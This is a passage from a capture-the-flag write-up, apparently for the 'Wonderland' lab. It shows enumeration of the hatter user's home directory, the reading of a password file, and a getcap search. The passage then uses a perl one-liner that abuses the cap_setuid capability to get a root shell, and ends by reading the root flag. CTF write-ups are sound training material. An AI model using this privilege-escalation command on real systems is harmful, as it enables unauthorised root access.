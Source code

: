 ```
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -al
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ cat password.txt
password_for_sane_people
```
Yeah! more enumeration...MORE!!

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

perl? okay let's ask gtfobins

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

it said yes

```
# cd /home/alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{the_shech_sheshire_cheshirre_that_fat_cat_is_creepy}
```

Weirdest CTF of my whole life!
